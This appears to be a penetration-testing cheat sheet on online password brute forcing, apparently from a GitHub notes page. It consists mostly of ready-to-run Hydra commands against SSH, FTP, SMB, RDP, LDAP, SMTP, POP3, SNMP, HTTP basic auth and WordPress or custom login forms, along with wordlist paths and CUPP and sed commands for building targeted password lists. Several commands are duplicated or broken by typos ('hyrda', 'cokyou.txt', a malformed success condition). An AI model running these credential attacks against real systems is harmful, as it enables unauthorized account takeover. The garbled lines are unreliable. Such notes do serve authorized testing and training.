 ## Table of Contents

    - [Definitions](#Definitions)
      - [Flags](#Flags)
- [LDAP Brute Forcing](#ldap\brute\forcing)
    - [FLAGS](#FLAGS)
        - [Wordlists #wordlists](#Wordlists\#wordlists)
  - [Basic Auth Brute Force Combinder Wordkusts](#Basic\Auth\Brute\Force\Combinder\Wordkusts)
  - [Basic auth Brute Force User\\Pass Wordlists](#Basic\auth\Brute\Force\User\\Pass\Wordlists)
  - [Login  Form Brute Force - Static User, Password wordlist](#Login\\Form\Brute\Force\-\Static\User,\Password\wordlist)
  - [SSH Brute Force - User/Pass Wordlists](#SSH\Brute\Force\-\User/Pass\Wordlists)
  - [FTP Brute Force - Static User, Pass Wordlists](#FTP\Brute\Force\-\Static\User,\Pass\Wordlists)
    - [Wordlist Manglers](#Wordlist\Manglers)

### Definitions
*Online Brute Force*: Attacking a live application over the network, like HTTP, HTTPs, SSH, FTP and others

#### Flags
`-l ''`: indicates the login name is blank
`-f` stop after finding working
`-v` verbose



```bash
#brute force against snmp
hydra -P password-file.txt -v $ip snmp

#FTP known user and rockyou password list
hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp

#SSH Using list of users and passwords
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh

#SSH Using a know password and a username list
hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh


#Hydra POP3 Brute Force
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V


#Hydra SMTP Brute Force
hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V        
#Hydra attack http get 401 login with a dictionary    
hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin                                                   
#Hydra attack Windows Remote Desktop with rockyou
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip                                                                
#Hydra brute force SMB user with rockyou:
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb                                                         
#Hydra brute force a Wordpress admin login            
hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'  

#SMB Brute Forcing
hydra -L usernames.txt -P passwords.txt $ip smb -V -f 

# LDAP Brute Forcing
hydra -L users.txt -P passwords.txt $ip ldap2 -V -f

#Hydra attack http get 401 login with a dictionary
hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin                                                     


#Hydra attack Windows Remote Desktop with rockyou
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip                                                          
#Brute force SMB uyer with rockyou
hyrda -t 1 -V -f -l administrator -P /usr/share/wordlists/cokyou.txt $ip smb

#brute force a wordpress login
hydra -l admin -P ./passwordlists.txt $ip -V http-form-post '/wp-login.php:login=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:SLocation' 

#smb brute forcing
hydra -L usernames.txt  -P passwords.txt $ip smb -V -f sm 

### FLAGS ###
-h: help
-l <login/username>
-L <FILE_PATH> Pass multiple usernames/logins wordlist
-p <password_known>
-P <FILE_PATH> : Use a password lists
-s <PORT>: Use custom Port
-f: Exit as soon as at least one login and a password combination is found
-R: Restore previous session (if crashed/aborted.)
```

##### Wordlists #wordlists
#crackingpassword #hashcracking #wordlists #seclists 
```bash
#default password wordlist
/usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt

#Common password lists
/usr/share/wordlists/rockyou.txt

#Common names wordlists
/usr/share/wordlists/seclists/Usernames/Names/names.txt
```

#cupp #wordlistmanglingtools #mangling

|**Command**|**Description**|
|---|---|
|`cupp -i`|Creating Custom Password Wordlist|
|`sed -ri '/^.{,7}$/d' william.txt`|Remove Passwords Shorter Than 8|
|``sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt``|Remove Passwords With No Special Chars|
|`sed -ri '/[0-9]+/!d' william.txt`|Remove Passwords With No Numbers|
|`./username-anarchy Bill Gates > bill.txt`|Generate Usernames List|
|`ssh b.gates@SERVER_IP -p PORT`|SSH to Server|
|`ftp 127.0.0.1`|FTP to Server|
|`su - user`|Switch to User|

#bruteforce #httpbasicauth #brutebasicauth
## Basic Auth Brute Force Combinder Wordkusts
```bash
hydra -C wordlists.txt SERV_IP -s PORT http-get /
```

## Basic auth Brute Force User\\Pass Wordlists
```bash
hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /
```


#loginform #loginformbruteforce #hydra
## Login  Form Brute Force - Static User, Password wordlist
```bash
hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

#sshbruteforce 
## SSH Brute Force - User/Pass Wordlists
```bash
hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4
```


## FTP Brute Force - Static User, Pass Wordlists
```bash
hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1
```



### Wordlist Manglers
[digininja/RSMangler: RSMangler will take a wordlist and perform various manipulations on it similar to those done by John the Ripper with a few extras. (github.com)](https://github.com/digininja/RSMangler)
______
[sc0tfree/mentalist: Mentalist is a graphical tool for custom wordlist generation. It utilizes common human paradigms for constructing passwords and can output the full wordlist as well as rules compatible with Hashcat and John the Ripper. (github.com)](https://github.com/sc0tfree/mentalist)
____
[cupp - github. Makes large custom wordlists](https://github.com/Mebus/cupp)


